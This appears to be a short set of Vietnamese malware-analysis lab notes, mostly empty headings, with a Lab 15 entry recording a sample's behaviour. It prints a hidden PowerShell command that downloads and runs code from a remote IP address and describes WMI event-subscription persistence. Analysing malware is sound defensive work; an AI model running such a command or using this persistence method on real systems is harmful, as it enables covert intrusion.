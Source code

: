 # Lab 11

# Lab 12

# Lab 13

# Lab 14

# Lab 15

- Mã độc thực thi lệnh: powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://39.109.114.56:80/a'))

- Cách thức persistent: Mã độc dùng WMI event subscription với WQL = SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'.
